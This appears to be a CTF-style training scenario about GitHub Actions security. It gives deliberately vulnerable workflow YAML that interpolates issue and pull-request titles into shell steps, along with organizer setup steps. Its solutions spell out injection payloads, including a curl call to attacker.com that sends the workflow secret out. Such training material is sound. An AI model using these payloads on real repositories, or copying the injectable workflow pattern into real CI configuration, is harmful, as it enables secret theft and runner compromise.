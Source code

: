 # Advanced Attack Scenario 10: GitHub Actions CTF-style challenge

This scenario is a CTF-style challenge that will test your knowledge of GitHub Actions security. The challenge consists of a series of progressively more difficult challenges, each of which involves a different vulnerability. To complete the challenge, you will need to find the flag at the end of each challenge.

## Challenge 1: Command Injection

**Description:**

The first challenge is a simple command injection vulnerability. You will need to find a way to execute arbitrary commands on the runner.

**Vulnerable Code:**

```yaml
name: Challenge 1
on:
  issues:
    types: [opened]
jobs:
  challenge1:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 1
        run: |
          echo "The flag is in a file called flag.txt"
          echo "Your input: ${{ github.event.issue.title }}"
```

**Hint:**

Try to use a shell command to read the contents of the `flag.txt` file.

**Solution:**

Create an issue with the title `'; cat flag.txt'`.

## Challenge 2: Secret Exfiltration

**Description:**

The second challenge is a secret exfiltration vulnerability. You will need to find a way to exfiltrate a secret from the workflow.

**Vulnerable Code:**

```yaml
name: Challenge 2
on:
  pull_request_target:
    types: [opened]
jobs:
  challenge2:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 2
        run: |
          echo "The flag is in a secret called FLAG"
          echo "Your input: ${{ github.event.pull_request.title }}"
```

**Hint:**

Try to use a shell command to exfiltrate the secret to a third-party service.

**Solution:**

Create a pull request with the title `'; curl http://attacker.com/?flag=${{ secrets.FLAG }}'`.

## Challenge 3: Privilege Escalation

**Description:**

The third challenge is a privilege escalation vulnerability. You will need to find a way to escalate your privileges on the runner.

**Vulnerable Code:**

```yaml
name: Challenge 3
on:
  push:
    branches: [ main ]
jobs:
  challenge3:
    runs-on: self-hosted
    steps:
      - name: Challenge 3
        run: |
          echo "The flag is in the /root directory"
```

**Hint:**

Try to use a kernel exploit to gain root access to the host machine.

**Solution:**

Use a kernel exploit to gain root access to the host machine and then read the contents of the `/root/flag.txt` file.

## Organizer Instructions

### Setting up the repository

1.  Create a new repository for the CTF.
2.  Add the vulnerable workflows to the `.github/workflows` directory.

### Creating the flags

1.  For challenge 1, create a file called `flag.txt` in the root of the repository with the flag.
2.  For challenge 2, create a secret called `FLAG` with the flag.
3.  For challenge 3, create a file called `flag.txt` in the `/root` directory of the self-hosted runner with the flag.

### Managing secrets

1.  For challenge 2, you will need to create a secret called `FLAG` with the flag.

### Setting up the self-hosted runner

1.  For challenge 3, you will need to set up a self-hosted runner. You can find instructions on how to do this in the [GitHub documentation](https://docs.github.com/en/actions/hosting-your-own-runners/adding-self-hosted-runners).

### Running the CTF

1.  Once you have set up the repository and the challenges, you can invite users to participate in the CTF.
2.  To verify the solutions, you can check the workflow logs for the correct output.